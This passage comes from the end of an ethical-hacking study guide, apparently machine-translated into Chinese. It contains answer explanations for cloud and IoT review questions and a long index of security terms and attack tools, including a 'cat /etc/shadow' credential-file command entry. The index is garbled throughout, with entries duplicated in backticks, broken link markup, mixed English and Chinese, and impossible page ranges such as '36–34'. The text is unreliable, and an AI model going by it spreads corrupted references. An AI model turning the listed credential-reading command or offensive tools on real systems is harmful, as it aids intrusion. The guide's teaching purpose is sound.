`botnet` 可能使用分布式计算模型来执行任务，这属于网格计算。云原生设计和 RESTful 处理与 Web 应用相关。雾计算与控制相关，且与物联网设备的存储关联。

## 14. D
不安全的第三方组件、配置错误以及访问控制问题都是构建主要基于无服务器函数的服务器端 Web 应用时可能出现的情况。由于没有关联的服务器，也没有保证函数运行的操作系统类型，无服务器函数更可能成为命令注入攻击的目标。

## 15. D
云计算的共享责任模型意味着存在一个滑动尺度，客户端或提供商将负责服务的不同方面。无论使用何种服务，客户始终负责数据，因为数据始终属于客户。

## 16. A
传感器和执行器是实现自动化制造的物理设备。由于它们拥有最少的“智能”，因此在 Purdue 模型中位于最低层。其他选项则位于模型的更高层。

## 17. B
分段是 Purdue 模型中最重要的方面，因为它能够为脆弱或敏感的设备提供更好的保护。其他的选项在此情境下均不合理。

## 18. C
强制执行多因素认证 (`MFA`) 是防止凭证被盗的最佳措施。即使密码很长，如果被窃取也无济于事。其他的两种方法对凭证被盗的影响也不大。

## 19. A
云服务以及本地服务的一个常见问题是配置错误。这可能包括不小心将包含敏感数据的 S3 桶设置为公开。提供商的改变以及软件即服务 (`SaaS`) 并不会直接影响数据暴露。内部威胁并不是云基于服务的专属问题。

## 20. D
模板、`Ansible` 和 `PowerShell` 都用于自动化在云环境中部署系统。虽然容器可以部署，但它们并不用于自动化部署。

# Index

## A

* `A` (address) records, 132

* `A2DP` (Advanced Audio Distribution), 495–496

* `AAAA` records, 132

* `Abstract Syntax Notation One` (`ASN.1`), 258

* acceptance, of risk, 68

* access 

    * broken control, as one of OWASP top ten vulnerabilities, 514

    * gaining in ethical hacking, 13

    * maintaining in ethical hacking, 14, 628

    * management of, as a common cloud threat, 639–641

* `ACK` flag, 39, 167, 169, 212, 419

* Acknowledgement Number field, 38

* Actions on Objectives stage, in Lockheed Martin Cyber Kill Chain, 8, 602

* `Active Directory` (`AD`), 300–302, 622, 626

* ad hoc network, 473–474

* address (`A`) records, 132

* `Address Resolution Protocol` (`ARP`) 

    * as a Data Link layer protocol, 22

    * spoofing, 418–422

* address space layout randomization (`ASLR`), 533–534, 535

* addressing, 29–30, 34–35

* administrative privileges, 168

* `ADSs` (alternate data streams), 330–331

* `Advanced Audio Distribution` (`A2DP`), 495–496

* `Advanced Encryption Standard` (`AES`), 236, 556–558

* advanced persistent threats (`APTs`), 72

* `AFL` (American Fuzzy Lop) tool, 312

* African Network Information Center (`AfrNIC`), 110

* `aircrack-ng`, 486, 490

* `aireplay-ng`, 489

* `airgeddon` tool, 492

* `airmon-ng`, 485–496

* `airodump-ng`, 490–491

* `Akamai`, 529

* alterations, as an evasion technique, 219

* alternate data streams (`ADSs`), 330–331

* `Amazon Machine Images` (`AMIs`), 50

* `Amazon Web Services` (`AWS`), 49, 593–594, 616, 633, 639, 641

* `American Fuzzy Lop` (`AFL`) tool, 312

* `American Registry for Internet Numbers` (`ARIN`), 110

* `American Standard Code for Information Interchange` (`ASCII`), 21, 518

* `AMIs` (`Amazon Machine Images`), 50

* analysis 

    * of malware, 349–371

    * packet, 412–417

* `Ansible`, 631–632

* answers to review questions 

    * attack and defense, 688–691

    * cloud computing, 695–697

    * cryptography, 691–693

    * enumeration, 672–674

    * Internet of Things (`IoT`), 695–697

    * malware, 678–680

    * networking, 662–663

    * reconnaissance and footprinting, 666–669

    * scanning networks, 669–672

    * security, 663–666

    * security architecture and design, 693–695

    * sniffing, 681–683

    * social engineering, 683–685

    * system hacking, 675–678

    * wireless security, 686–688

* antivirus solutions, 384–385

* Apache Server, running `slowhttptest` against, 530

* `APIs` (application programming interfaces) 

    * about, 369

    * rootkits and, 326–327

* `APNIC` (Asia Pacific Network Information Centre), 110

* `Apple` 

    * `Face ID`, 445

    * `iCloud`, 619

* application binary interface, 360–361

* Application layer 

    * n‑tier application design, 589–590

    * OSI model, 21, 79–80

* application programming interfaces (`APIs`) 

    * about, 369

    * rootkits and, 326–327

* applications 

    * architecture of 

        * about, 587

        * cloud‑based, `cloud‑based`, 593–595

        * database considerations, `database considerations`, 595–598

        * n‑tier design, `n‑tier design`, 588–591

        * service‑oriented, `service‑oriented`, 591–593

    * exploitation of 

        * about, `about`, 531

        * application protections and evasions, `application protections and evasions`, 535–536

        * buffer overflow, `buffer overflow`, 532–534

        * heap spraying, `heap spraying`, 534

* `APTs` (advanced persistent threats), `APTs`, 72

* arbitrary code execution, `arbitrary code execution`, 531

* architecture 

    * cloud, `cloud`, 625–638

    * of CPUs, `of CPUs`, 366

    * defensible network, `defensible network`, 90–91

    * Internet Protocol (`IP`), `Internet Protocol` (`IP`), 23–24

    * network, `network`, 42–46

    * Transmission Control Protocol (`TCP`), `Transmission Control Protocol` (`TCP`), 23–24

* `ARIN` (`American Registry for Internet Numbers`), `ARIN`, 110

* `ARP` (`Address Resolution Protocol`) 

    * as a Data Link layer protocol, `as a Data Link layer protocol`, 22

    * spoofing, `spoofing`, 418–422

* `ARP poisoning`, `ARP poisoning`, 418

* `ARPAnet`, `ARPAnet`, 341–342

* `arpspoof`, `arpspoof`, 419–420

* `ASCII` (`American Standard Code for Information Interchange`), `ASCII`, 21, 518

* Asia Pacific Network Information Centre (`APNIC`), `Asia Pacific Network Information Centre` (`APNIC`), 110

* `ASLR` (address space layout randomization), `ASLR`, 533–534, 535

* `ASN.1` (`Abstract Syntax Notation One`), `ASN.1`, 258

* Assessment tab (`Nessus`), `Assessment tab`, 205

* asymmetric key cryptography 

    * about, `about`, 558–559

    * elliptic curve cryptography (`ECC`), `elliptic curve cryptography` (`ECC`), 560–562

    * hybrid cryptosystem, `hybrid cryptosystem`, 559

    * nonrepudiation, `nonrepudiation`, 559–560

* attacks 

    * about, `about`, 512, 542–543

    * answers to review questions, `answers to review questions`, 688–691

    * application exploitation, `application exploitation`, 531–536

    * defense in depth/defense in breadth, `defense in depth/defense in breadth`, 538–540

    * defensible network architecture, `defensible network architecture`, 540–542

    * denial‑of‑service (`DoS`) attacks, `denial‑of‑service` (`DoS`) attacks, 526–531

    * lateral movement, `lateral movement`, 536–538

    * lifecycle for, `lifecycle for`, 8–10, 72

    * on mobile devices, `on mobile devices`, 500–504

    * modeling 

        * about, `about`, 6–7

        * attack life cycle, `attack life cycle`, 8–10

        * cyber kill chain, `cyber kill chain`, 7–8

        * MITRE ATT&CK framework, `MITRE ATT&CK framework`, 10–11


- review questions, `review questions`, 543–548
- slow, `slow`, 529–530
- web application attacks, `web application attacks`, 512–526
- Wi‑Fi, `Wi‑Fi`, 484–495
- auditing, `auditing`, 93–95
- authentication
  - failures of, as one of OWASP top ten vulnerabilities, `failures of`, 514–515
  - service enumeration and, `service enumeration and`, 236
  - Wi‑Fi, `Wi‑Fi`, 477–478
- authenticity, in Parkerian hexad, `authenticity`, 65
- authority
  - defined, `defined`, 562
  - in theory of influence, `in theory of influence`, 437
- authorized entities, `authorized entities`, 4
- automating
  - malware analysis, `malware analysis`, 370–371
  - social engineering, `social engineering`, 461–464
- `autoroute` module, `autoroute module`, 321–322
- availability, in CIA triad, `availability`, 64
- avoidance, of risk, `avoidance`, 69
- AWS (Amazon Web Services), `AWS`, 49, 593–594, 616, 633, 639, 641
- Azure Active Directory, `Azure Active Directory`, 622–623
- Background Intelligent Transfer Service (BITS), `Background Intelligent Transfer Service (BITS)`, 325–326
- badge access, `badge access`, 442–444
- baiting, `baiting`, 447–448
- bandwidth attacks, `bandwidth attacks`, 527–529
- base service set identifier (BSSID), `base service set identifier (BSSID)`, 458–459, 477, 490
- Beacon (Cobalt Stike), `Beacon (Cobalt Stike)`, 384
- BeFF (Browser Exploitation Framework), `BeFF`, 492–493
- Bell‑LaPadula model, `Bell‑LaPadula model`, 586
- Berkeley Packet Filter (BPF), `Berkeley Packet Filter (BPF)`, 408–410
- Berkeley Software Distribution (BSD), `Berkeley Software Distribution (BSD)`, 396
- Biba, Kenneth, `Biba, Kenneth`, 585
- Biba model, `Biba model`, 585
- biometrics, `biometrics`, 445–446
- birthday paradox, `birthday paradox`, 296, 569
- BitLocker, `BitLocker`, 574
- BITS (Background Intelligent Transfer Service), `BITS`, 325–326
- black boxes, `black boxes`, 591
- black hat, `black hat`, 4
- black‑box testing, `black‑box testing`, 638
- Blaster, `Blaster`, 343
- blog storage, `blog storage`, 620
- bluebugging, `bluebugging`, 498–499
- bluedump, `bluedump`, 499
- bluejacking, `bluejacking`, 498
- bluesmack, `bluesmack`, 499
- bluesnarfing, `bluesnarfing`, 498
- Bluetooth
  - about, `about`, 495–496
  - bluebugging, `bluebugging`, 498–499
  - bluedump, `bluedump`, 499
  - bluejacking, `bluejacking`, 498
  - bluesmack, `bluesmack`, 499
  - bluesnarfing, `bluesnarfing`, 498
  - scanning, `scanning`, 496–498
- botnet, `botnet`, 344
- BPF (Berkeley Packet Filter), `BPF`, 408–410
- bring your own device (BYOD), `bring your own device (BYOD)`, 483–484
- Broadcom, `Broadcom`, 487
- Browser Exploitation Framework (BeFF), `Browser Exploitation Framework (BeFF)`, 492–493
- brute force zone transfers, `brute force zone transfers`, 137–138
- `brute_dirs` module, `brute_dirs module`, 265
- BSD (Berkeley Software Distribution), `BSD`, 396
- BSSID (base service set identifier), `BSSID`, 458–459, 477, 490
- `btscanner` program, `btscanner program`, 496–497
- buffer overflow, `buffer overflow`, 532–534
- built‑in utilities, `built‑in utilities`, 243–247
- Burp Suite, `Burp Suite`, 636–637
- bus network, `bus network`, 24–25
- Business Logic layer, in n‑tier application design, `Business Logic layer`, 590
- BYOD (bring your own device), `BYOD`, 483–484
- bytes, `bytes`, 34, 564
- C, Python compared with, `C`, 372–374
- CA (certificate authority), `CA`, 562–568
- cacheability, of applications, `cacheability`, 635
- caching DNS, `caching DNS`, 132
- CAM (content‑addressable memory), `CAM`, 30–31
- canonical name (CNAME) records, `canonical name (CNAME) records`, 132, 138
- captive portal, `captive portal`, 459
- Cascading Style Sheets (CSS), `Cascading Style Sheets (CSS)`, 517
- `cat` command, `cat command`, 522
- `cat /etc/shadow` command, `cat /etc/shadow command`, 295
- catastrophizing, `catastrophizing`, 67
- CBC (Cipher Block Chaining), `CBC`, 557
- C&C (command‑and‑control infrastructure), `C&C`, 344, 382–383
- CDIs (Constrained Data Items), 587
- Censys.io, 646
- certificate authority (CA), 562–568
- certificate revocation lists (CRLs), 565
- certificates, 562
- certification rules (CRs), 587
- CGI (common gateway interface) model, 523–524
- ChaCha20, 236
- Chaos Computer Club, 8
- Checksum field, 33, 39
- CIA triad
  - about, 61
  - availability, 64
  - confidentiality, 61–62
  - integrity, 63–64
  - Parkerian hexad, 65
- Cialdini, Robert, 436–437
- CIDR (Classless Inter‑Domain Routing) notation, 36, 169
- CIFS (Common Internet File System), 13
- CIM (computer‑integrated manufacturing), 654
- Cipher Block Chaining (CBC), 557
- ciphersuite, 556–557
- Cisco, 122
- Clark‑Wilson Integrity Model, 586–587
- classification, of data, 582–584
- Classless Inter‑Domain Routing (CIDR) notation, 36, 169
- `clearev` command, 329
- clearing Event Viewer, in Meterpreter, 329
- client‑server architecture, 634
- client‑side vulnerabilities, 305–307
- cloning, 454–457
- cloud computing
  - about, 46–47, 612–616, 655–656
  - answers to review questions, 695–697
  - architectures, 625–631
  - cloud services, 616–621
  - common threats, 639–645
  - deployment, 631–633
  - grid computing, 624–625
  - infrastructure as a service (IaaS), 48–49
  - Internet of Things (IoT), 53
  - operational technology, 652–655
  - platform as a service (PaaS), 49–51
  - public compared with private cloud, 623
  - REST, 633–638
  - review questions, 657–661
  - shared responsibility model, 621–623
  - software as a service, 51–53
  - storage as a service (StaaS), 47–48
- cloud‑based applications, 593–595
- CloudFormation, 633
- cloud‑native design, 629–631
- CNAME (canonical name) records, 132, 138
- Cobalt Stike's Beacon, 384
- Code Red, 343
- Collection stage, in MITRE ATT&CK framework, 11, 74–75
- collision, 295–296, 569
- colon (:), 35
- Command and Control stage
  - in Lockheed Martin Cyber Kill Chain, 602
  - in MITRE ATT&CK framework, 8, 11, 75
- command injection, 521–522
- command‑and‑control infrastructure (C&C), 344, 382–383
- commitment, in theory of influence, 437
- common gateway interface (CGI) model, 523–524
- Common Internet File System (CIFS), 13
- Common Object Request Broker Architecture (CORBA), 237
- common off‑the‑shelf (COTS) malware, 8
- Common Vulnerabilities and Exposures (CVE), 181
- communication models, 19–24
- companies, open source intelligence (OSI) and, 103–104
- Complete Mission stage, in life cycle, 10, 536
- computer‑integrated manufacturing (CIM), 654
- Confidential classification, 583
- confidentiality, in CIA triad, 61–62
- Constrained Data Items (CDIs), 587
- contact spamming, 452
- container, 592–593
- content‑addressable memory (CAM), 30
- \[分类，\] 582–584
- \[隐藏，\] 219, 330–332
- \[完整性，\] 515, 585
- \[伪造，\] 219
- \[静态数据，\] 572
- \[数据泄露，\] 641–642
- \[数据加密标准 (DES)，\] 555–556
- \[数据处理，\] 642
- \[数据层 (n‑tier 应用设计)，\] 590
- \[数据链路层 (OSI 模型)，\] 22
- \[数据偏移字段，\] 38
- \[数据库，\] 595–598
- \[DDoS (分布式拒绝服务)，\] 528–529
- \[去认证攻击，\] 489–491
- \[调试，动态分析和，\] 366–370
- \[使用过时且弱化的 RSA 加密 (DROWN)，\] 181
- \[深度包检查 (DPI)，\] 78–79
- \[防御规避阶段，\] 11, 74
- \[防御‑在‑深度 方法，\] 89–90, 538–540
- \[防御‑在‑深度 方法，\] 87–89, 538–540
- \[可防御的网络架构，\] 90–91, 540–542
- \[DELETE 方法，\] 631, 635
- \[传输，\] 8
- \[传输阶段，\] 602
- \[非军事区 (DMZ)，\] 44–45, 88, 89, 539, 654
- \[拒绝服务 (DoS) 攻击\]
  - \[关于，\] 64, 526
  - \[带宽攻击，\] 527–529
  - \[老旧，\] 531
  - \[慢速攻击，\] 529–530
- \[部署，云，\] 625–638
- \[DES (数据加密标准)，\] 555–556
- \[目标地址字段，\] 33
- \[目标端口字段，\] 37
- \[检测函数，\] 600
- \[检测\]
  - \[保护和，\] 223–224
  - \[嗅探器，\] 410–412
  - \[伪造，\] 426–428
- \[设备，\] 646
- \[DevOps，\] 90
- \[DevSecOps，\] 90
- \[DHCP (动态主机配置协议)\]
  - \[饥饿攻击，\] 424–426


## D

- 无线社交工程和，460
- Diffie、Whitfield，235–236, 554
- Diffie‑Hellman 算法，235–236, 553–555
- `dig`，135–136
- 目录遍历，522–523
- 反汇编，354–356
- 发现阶段，11, 74
- 离散安全属性，586
- 磁盘加密，572–575
- 分布式拒绝服务 (DDoS)，528–529
- 分布式网络协议 (DNP)，153
- distributed.net 项目，624
- DLL (动态链接库)，326, 350
- `dm‑crypt`，575
- DMZ (非军事区)，44–45, 88, 89, 539, 654
- DNP (分布式网络协议)，153
- DNS (域名系统)
    - 关于，3–4, 75, 129–130
    - 名称查找，130–136
    - 被动 DNS，138–142
    - 伪造，422–424
    - 区域传输，136–138
- DNS 放大攻击，528
- DNS 安全扩展 (DNSSEC)，107, 427
- `dnsrecon`，137–138
- 文档对象模型 (DOM)，147, 517, 518
- 域名，397
- Domain Name System (DNS)
    - 关于，3–4, 75, 129–130
    - 名称查找，130–136
    - 被动 DNS，138–142
    - 伪造，422–424
    - 区域传输，136–138
- 域名注册商，105–109
- DomainMonger，106
- dork (Google)，150
- DoS (拒绝服务) 攻击
    - 关于，64, 526
    - 带宽攻击，527–529
    - 老旧，531
    - 慢速攻击，529–530
- 点分十进制表示。*See* 期间 (.)
- 点分四十进制。*See* 期间 (.)
- 双连字符 (‑‑)，520
- DPI (深度包检查)，78–79
- 加密驱动，573
- dropper，347–348
- DROWN (使用过时且弱化的 RSA 加密)，181
- `dsniff`，419
- DuckDuckGo，112–114
- DVWA (Damn Vulnerable Web Application)，521
- `DYLD_INSERT_LIBRARIES` 变量，329
- 动态分析
    - 关于，361
    - Cuckoo Sandbox，362–366
    - 调试，366–370
- Dynamic Host Configuration Protocol (DHCP)
    - 饥饿攻击，424–426
    - 无线社交工程和，460
- dynamic link library (DLL)，326, 350
- EBCDIC (Extended Binary Coded Decimal Interchange Code)，21
- EC2 (Elastic Compute Cloud)，49
- ECC (椭圆曲线密码学)，560–562
- EC‑Council，2, 522
- EDGAR，104–105
- EDR (端点检测与响应)
    - 关于，84–85, 385, 604
    - 规避和，313
- 802.11 标准，472–473
- Elastic Compute Cloud (EC2)，49
- Elastic Kubernetes Service (EKS)，593
- Elastic Stack (ELK stack)，86, 329, 541
- ELF (Executable and Linkable Format) 文件，378
- Elk Cloner，342
- 椭圆曲线密码学 (ECC)，560–562
- Empire，307
- 编码负载，380
- 加密驱动，573
- 加密
    - 基础，551–555
- `disk/file`, 572–575
- `Wi‑Fi`, 478–483
- `encryptors`, in `static analysis`, 351–353
- `endpoint detection and response (EDR)`
    - `about`, 84–85, 385, 604
    - `evasion and`, 313
- `entity-relationship diagram`, 590–591
- `enumeration`
    - `about`, 232–233, 272–273
    - `answers to review questions`, 672–674
    - in `ethical hacking`, 12–13
    - `remote procedure call (RPC)`, 236–242
    - `review questions`, 274–277
    - `Server Message Block (SMB)`, 242–257
    - `service enumeration`, 233–236
    - `Simple Mail Transfer Protocol (SMTP)`, 260–264
    - `Simple Network Management Protocol (SNMP)`, 258–260
    - `web-based enumeration`, 264–271
- `Escalate Privileges` stage, in `life cycle`, 9, 536
- `ESSID`, 491
- `Establish Foothold` stage, in `life cycle`, 9, 536
- `EternalBlue`, 346
- `ethical hacking`
    - `about`, 5–6
    - `methodology of`, 12–15
- `ethics`, 2–5
- `Ettercap`, 420–421, 422–424, 426
- `evasion techniques`
    - `about`, 214–220, 313–314
    - for `applications`, 535–536
    - with `nmap`, 221–223
- `Event Viewer`, clearing in `Meterpreter`, 329
- `evil twin`, 491–493
- `Executable and Linkable Format (ELF) file`, 378
- `Execution` stage, in `MITRE ATT&CK framework`, 10, 73
- `Exfiltration` stage, in `MITRE ATT&CK framework`, 11, 75
- `Exploitation` stage, in `Lockheed Martin Cyber Kill Chain`, 602
- `exploit-db`, 281–285, 290–292
- `exploits`
    - `defined`, 291
    - `searching for`, 281–285
- `Express library`, 383–384
- `Extended Binary Coded Decimal Interchange Code (EBCDIC)`, as a `Presentation layer protocol`, 21
- `eXtensible Markup Language (XML)`
    - `about`, 597, 635
    - `external entity processing`, 515–516
    - `format`, 183, 308–313

## F

- `Face ID (Apple)`, 445
- `Facebook`, 116–119, 618–619
- `facial recognition`, 445
- `false acceptance rates (FARs)`, 446
- `false negative vulnerability`, 191
- `false positive vulnerability`, 191
- `false rejection rates (FRRs)`, 446
- `Farmer, Dan`, 191
- `FARs (false acceptance rates)`, 446
- `FiercePhish`, 451–452
- `file encryption`, 572–575
- `File Transfer Protocol (FTP)`
    - `about`, 498
    - `stateful filtering and`, 77
- `file traversal`, 522–523
- `fileless malware`, 348
- `filesystems`, encrypting, 572
- `FileVault`, 573–574
- `filters`, running `tcpdump` without, 409
- `fingerprint scanning`, 445
- `Firebug`, 147
- `FireEye Labs Advanced Reverse Engineering (FLARE)`, 349, 370–371
- `Firefox`
    - `attacks on`, 305–306
    - `plugins for`, 143–144
- `firewalls`
    - `about`, 76
    - `Application layer`, 79–80
    - `deep packet inspection (DPI)`, 78–79
    - `packet filters`, 76–77
    - `service enumeration and`, 236
    - `stateful filtering`, 77–78
    - `unified threat management (UTM)`, 80
- `Flags field`, 33
- `FLARE (FireEye Labs Advanced Reverse Engineering)`, 349, 370–371
- `fog computing`, 651–652
- `footprinting. *See* reconnaissance and footprinting`
- `forced browsing`, 524, 638
- `419 scam`, 440
- `four-way handshake`, 494
- `fping`, using `MegaPing`, 163–165
- `FQDNs (fully qualified domain names)`, 129–130, 131–133, 135, 152, 454
- `Fragment Offset field`, 33
- `fragmentation`, as an `evasion technique`, 219
- `fragroute`, 217–218, 219
- `frame`, 395
- `frequency analysis`, 552
- `FRRs (false rejection rates)`, 446
- `FTP (File Transfer Protocol)`
    - `about`, 498
    - `stateful filtering and`, 77
- `full mesh network`, 27–28
- `fully qualified domain names (FQDNs)`, 129–130, 131–133, 135, 152, 454
- `functions`, 627
- `fuzzing`, 308–313

## G

- `gait recognition`, 446
- `Generic Routing Encapsulation (GRE) protocol`, 220
- `GET method`, 384, 631, 635
- `Ghidra`, static analysis using, 358–361
- `GoDaddy`, 106
- `Google`, 150–152, 618–619
- `Google Chrome`
    - `attacks on`, 305
    - `plugins for`, 143–144
    - `trusted third party and`, 566
- `Google Compute`, 639
- `Google dork`, 150
- `Google Drive`, 47, 619
- `Google Hacking Database`, 151–152
- `Google Rapid Response (GRR)`, 85
- `governmental data classifications`, 583
- `GPUs (graphics processing units)`, 625
- `Graham, Robert`, 184
- `Graph API (Facebook)`, 117–118
- `graphics processing units (GPUs)`, 625
- `gray hat`, 4
- `GRE (Generic Routing Encapsulation) protocol`, 220
- `grid computing`, 624–625
- `group temporal key (GTK)`, 480–481
- `GRR (Google Rapid Response)`, 85
- `guidelines, security`, 72

## H

- `hactivists`, `ransomware and`, 346
- `half-open scan`, 169
- Handshake tools, 492
- `hashdump` command, 292–293
- hashing, cryptographic, 569–570
- Header Length field, 32–33
- headers, 32–34
- Health Insurance Portability and Accountability Act (HIPAA), 45
- heap, 534
- heap spraying, 534
- Heartbleed attack, 146
- heating, ventilation, and cooling (HVAC), 621
- Hellman, Martin, 235–236, 554
- HID (human interface device), 652
- hiding data, 219, 330–332
- Hierarchical File System (HFS), 330–331


- `HIPAA` (Health Insurance Portability and Accountability Act), `[45`](#c02.xhtml#Page_45)

- `HipChat`, `[501`](#c11.xhtml#Page_501)

- `HKEY_LOCAL_MACHINE`, `[385`–`386`](#c08.xhtml#Page_385)–386

- `HMI` (human‑machine interface), `[652`, `654`](#c15.xhtml#Page_652), 654

- `host`, name lookups using, `[133`–`134`](#c04.xhtml#Page_133)–134

- host isolation, `[85`](#c03.xhtml#Page_85)

- `hostapd` program, `[459`–`460`, `493`](#c10.xhtml#Page_459)–460, 493

- host‑based IDS, `[80`](#c03.xhtml#Page_80)

- Hostile Ports, `[185`](#c05.xhtml#Page_185)

- `hping`, `[211`–`214`](#c05.xhtml#Page_211)–214

- `HTML` (Hypertext Markup Language), `[381`, `513`, `614`–`615`](#c08.xhtml#Page_381), 513, 614–615

- `HTTP` (Hypertext Transfer Protocol) 

    * about, `[75`, `348`, `589`, `614`–`615`, `623`](#c03.xhtml#Page_75), 348, 589, 614–615, 623

    * as an Application layer protocol, `[21`](#c02.xhtml#Page_21)

    * Representational State Transfer (REST) and, `[633`–`634`](#c15.xhtml#Page_633)–634

- `HTTrack`, `[148`–`149`](#c04.xhtml#Page_148)–149

- human interface device (`HID`), `[652`](#c15.xhtml#Page_652)

- human‑machine interface (`HMI`), `[652`, `654`](#c15.xhtml#Page_652), 654

- `HVAC` (heating, ventilation, and cooling), `[621`](#c15.xhtml#Page_621)

- hybrid cryptosystem, `[559`](#c13.xhtml#Page_559)

- hybrid topology, `[28`–`29`](#c02.xhtml#Page_28)–29

- Hypertext Markup Language (`HTML`), `[381`, `513`, `614`–`615`](#c08.xhtml#Page_381), 513, 614–615

- Hypertext Transfer Protocol (`HTTP`) 

    * about, `[75`, `348`, `589`, `614`–`615`, `623`](#c03.xhtml#Page_75), 348, 589, 614–615, 623

    * as an Application layer protocol, `[21`](#c02.xhtml#Page_21)

    * Representational State Transfer (REST) and, `[633`–`634`](#c15.xhtml#Page_633)–634

- `I`

- `I Love You` virus, `[342`, `437`–`438`](#c08.xhtml#Page_342), 437–438

- `IaaS` (infrastructure as a service) 

    * about, `[48`–`49`](#c02.xhtml#Page_48)–49

    * of malware, `[382`–`384`](#c08.xhtml#Page_382)–384

- `IaC` (infrastructure as code), `[629`, `631`](#c15.xhtml#Page_629), 631

- `IAM` (identity and access management) system, `[603`, `621`, `639`, `654`](#c14.xhtml#Page_603), 621, 639, 654

- `IANA` (Internet Assigned Numbers Authority), `[106`, `109`](#c04.xhtml#Page_106), 109

- `IBM` `[360`, `612`–`613`](#c08.xhtml#Page_360), 612–613

- `ICANN` (Internet Corporation for Assigned Names and Numbers), `[106`](#c04.xhtml#Page_106)

- `ICMP` (Internet Control Message Protocol), `[41`–`42`, `75`, `527`](#c02.xhtml#Page_41)–42, 75, 527

- `ICSs` (Industrial Control Systems), `[153`, `652`–`653`](#c04.xhtml#Page_153), 652–653

- `IDA Free`, `[366`](#c08.xhtml#Page_366)

- `IDA Pro`, `[358`–`359`, `366`](#c08.xhtml#Page_358)–359, 366

- `IDE` (integrated development environment), `[366`](#c08.xhtml#Page_366)

- identification failures, as one of OWASP top ten vulnerabilities, `[514`–`515`](#c12.xhtml#Page_514)–515

- Identification field, `[33`](#c02.xhtml#Page_33)

- identity and access management (`IAM`) system, `[603`, `621`, `639`, `654`](#c14.xhtml#Page_603), 621, 639, 654

- Identity function, in NIST Cybersecurity Framework, `[599`–`600`](#c14.xhtml#Page_599)–600

- identity theft, `[441`](#c10.xhtml#Page_441)

- `iDevices`, `[647`–`648`](#c15.xhtml#Page_647)–648

- `IDSs` (intrusion detection systems), `[80`–`83`](#c03.xhtml#Page_80)–83

- `IEEE` (Institute of Electrical and Electronics Engineers), `[472`](#c11.xhtml#Page_472)

- `IETF` (Internet Engineering Task Force), `[32`](#c02.xhtml#Page_32)

- `Immunity Debugger`, `[366`](#c08.xhtml#Page_366)

- Impact stage, in MITRE ATT&CK framework, `[11`, `75`](#c01.xhtml#Page_11), 75

- impersonation, `[440`–`441`](#c10.xhtml#Page_440)–441

- Industrial Control Systems (`ICSs`), `[153`, `652`–`653`](#c04.xhtml#Page_153), 652–653

- information assurance, risk and, `[66`–`69`](#c03.xhtml#Page_66)–69

- infrastructure as a service (`IaaS`)a 

    * about, `[48`–`49`](#c02.xhtml#Page_48)–49

    * of malware, `[382`–`384`](#c08.xhtml#Page_382)–384

- infrastructure as code (`IaC`), `[629`, `631`](#c15.xhtml#Page_629), 631

- infrastructure network, `[474`–`475`](#c11.xhtml#Page_474)–475

- Initial Access stage, in MITRE ATT&CK framework, `[10`, `73`](#c01.xhtml#Page_10), 73

- Initial Compromise stage, in life cycle, `[9`, `536`](#c01.xhtml#Page_9), 536

- Initial Reconnaissance stage, in life cycle, `[9`, `536`](#c01.xhtml#Page_9), 536

- injection, as one of OWASP top ten vulnerabilities, `[514`](#c12.xhtml#Page_514)

- insecure design, as one of OWASP top ten vulnerabilities, `[514`](#c12.xhtml#Page_514)

- `INSERT INTO` query, `[598`](#c14.xhtml#Page_598)

- insider threat, as a common cloud threat, `[645`](#c15.xhtml#Page_645)

- `InSpy` tool, `[122`](#c04.xhtml#Page_122)

- Installation stage, in Lockheed Martin Cyber Kill Chain, `[8`, `602`](#c01.xhtml#Page_8), 602

- Institute of Electrical and Electronics Engineers (`IEEE`), `[472`](#c11.xhtml#Page_472)

- integrated development environment (`IDE`), `[366`](#c08.xhtml#Page_366)

- integrity 

    * in CIA triad, `[63`–`64`](#c03.xhtml#Page_63)–64

    * of data, `[585`](#c14.xhtml#Page_585)

- Integrity Verification Procedure (`IVP`), `[587`](#c14.xhtml#Page_587)

- intelligence 

    * of technology, `[150`–`154`](#c04.xhtml#Page_150)–154

    * of websites, `[145`–`149`](#c04.xhtml#Page_145)–149

- intelligence‑driven groups, ransomware and, `[346`](#c08.xhtml#Page_346)

- Internal Reconnaissance stage, in life cycle, `[9`, `536`](#c01.xhtml#Page_9), 536

- International Organization for Standardization (`ISO`), `[20`, `71`, `601`](#c02.xhtml#Page_20), 71, 601

- Internet Assigned Numbers Authority (`IANA`), `[106`, `109`](#c04.xhtml#Page_106), 109

- Internet Control Message Protocol (`ICMP`), `[41`–`42`, `75`, `527`](#c02.xhtml#Page_41)–42, 75, 527

- Internet Corporation for Assigned Names and Numbers (`ICANN`), `[106`](#c04.xhtml#Page_106)

- Internet Engineering Task Force (`IETF`), `[32`](#c02.xhtml#Page_32)

- Internet of Things (`IoT`) 

    * about, `[53`, `152`–`154`, `612`, `646`–`651`, `655`–`656`](#c02.xhtml#Page_53), 152–154, 612, 646–651, 655–656

    * answers to review questions, `[695`–`697`](#b01.xhtml#Page_695)–697

    * fog computing, `[651`–`652`](#c15.xhtml#Page_651)–652

    * operational technology, `[652`–`655`](#c15.xhtml#Page_652)–655

    * review questions, `[657`–`661`](#c15.xhtml#Page_657)–661

- Internet Protocol (`IP`) 

    * about, `[31`–`32`](#c02.xhtml#Page_31)–32

    * addressing, `[34`–`35`](#c02.xhtml#Page_34)–35

    * architecture, `[23`–`24`](#c02.xhtml#Page_23)–24

* headers, 32–34

* as a Network layer protocol, 22

* subnets, 35–37

* Internet Relay Chat (`IRC`), 383

* Internet service provider (`ISP`), 529

* Internetwork Packet Exchange (`IPX`), 31

* intrusion detection systems (`IDSs`), 80–83

* intrusion prevention systems (`IPSs`), 83–84

* Invocation Property, 585

* `IoT` (Internet of Things) 

    * about, 53, 152–154, 612, 646–651, 655–656

    * answers to review questions, 695–697

    * fog computing, 651–652

    * operational technology, 652–65. 655

    * review questions, 657–661

* `IP` (Internet Protocol) 

    * about, 31–32

    * addressing, 34–35

    * architecture, 23–24

    * headers, 36–34

    * as a Network layer protocol, 22

    * subnets, 35–37

* IP Security (`IPSec`), 46

* `IPSs` (intrusion prevention systems), 83–84

* `iptables`, 459–460

* `IPv4`, 31–32, 34–35

* `IPv6`, 31–32, 34–35, 46

* `IPX` (Internetwork Packet Exchange), 31

* `IRC` (Internet Relay Chat), 383

* iris scanning, 445

* `ISO` (International Organization for Standardization), 20, 71, 601

* `ISO` 27001/27002, 71, 601

* isolation, network, 44–45

* `ISP` (Internet service provider), 529

* `IVP` (Integrity Verification Procedure), 587

* `iwconfig` program, 489

* Java archive (`JAR`), 240–241, 458


- Java Development Kit (JDK), 242, 359
- Java runtime engine (JRE), 242
- Java Server Pages (JSP) process, 328
- JavaScript Object Notation (JSON), 384, 596–597, 633
- JBoss, 617
